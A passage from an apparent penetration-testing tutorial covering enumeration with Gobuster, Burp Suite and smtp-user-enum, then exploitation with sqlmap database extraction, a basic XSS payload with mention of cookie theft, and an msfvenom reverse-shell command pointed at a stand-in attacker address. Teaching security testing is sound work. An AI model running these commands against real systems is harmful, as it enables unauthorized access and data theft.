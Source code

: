 5. **Directory and File Brute Forcing**:
   - Tools like **Dirbuster**, **Gobuster**, or **Dirb** can be used to brute-force hidden directories and files on the web server.
     Example with **Gobuster**:
     ```bash
     gobuster dir -u http://example.com -w /path/to/wordlist.txt
     ```
   - This will scan the server for directories or files that are not linked in the visible pages but may still exist on the server (e.g., `/admin`, `/backup`, etc.).

6. **Enumerating Web Services**:
   - **Burp Suite** is a great tool for web application enumeration. Use it to intercept traffic and explore web application endpoints.
   - You can use **Burp Suite** to perform **active scanning**, identify weak parameters, and check for vulnerabilities like **XSS**, **SQLi**, and others.
   - **Burp Suite Intruder** can also be used for brute-forcing login forms or parameters.

7. **SMTP and DNS Enumeration**:
   - You can also enumerate mail servers and DNS services. For SMTP, you can use **smtp-user-enum** to check for valid usernames:
     ```bash
     smtp-user-enum -M VRFY -U userlist.txt -t example.com
     ```

---

### **3. Exploitation (Exploiting Vulnerabilities)**

Exploitation is the phase where you actually attempt to use the vulnerabilities you’ve discovered to gain unauthorized access or control over the target.

#### **Steps for Exploitation:**

1. **Exploiting Web Application Vulnerabilities**:
   - **SQL Injection (SQLi)**:
     - If you’ve found a **SQL Injection** vulnerability, you can use tools like **SQLmap** to automate exploitation. SQLi is often found in search fields, login forms, or any user input.
     Example:
     ```bash
     sqlmap -u "http://example.com/search?q=test" --dbs
     ```
     This will attempt to extract databases from the server. If successful, you can enumerate tables and retrieve sensitive information like user credentials.
   
   - **Cross-Site Scripting (XSS)**:
     - If you find a **XSS** vulnerability (e.g., an input field that doesn’t sanitize user input), try injecting payloads like:
       ```html
       <script>alert('XSS')</script>
       ```
     - If successful, you can steal cookies or tokens, or perform actions on behalf of other users.

2. **Remote Code Execution (RCE)**:
   - If you find a **Remote Code Execution (RCE)** vulnerability, you can execute commands on the target machine. For example, a vulnerable PHP script or a misconfigured web server might allow this.
     Example using **Metasploit** for RCE:
     ```bash
     msfvenom -p linux/x86/shell_reverse_tcp LHOST=your_ip LPORT=your_port -f elf > shell.elf
     ```
     This generates a reverse shell payload that you can upload to the server and execute.
